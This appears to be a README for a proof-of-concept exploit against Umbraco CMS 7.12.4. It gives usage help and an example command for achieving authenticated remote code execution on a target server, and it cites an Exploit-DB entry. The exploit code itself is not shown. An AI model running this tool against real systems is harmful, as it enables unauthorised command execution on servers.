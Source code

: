 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD

Umbraco authenticated RCE

optional arguments:
  -h, --help                show this help message and exit
  -u USER, --user USER      username / email
  -p PASS, --password PASS  password
  -i URL, --host URL        root URL
  -c CMD, --command CMD     command
```

Example:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments and with stdout display.

Tested with python 3.8.
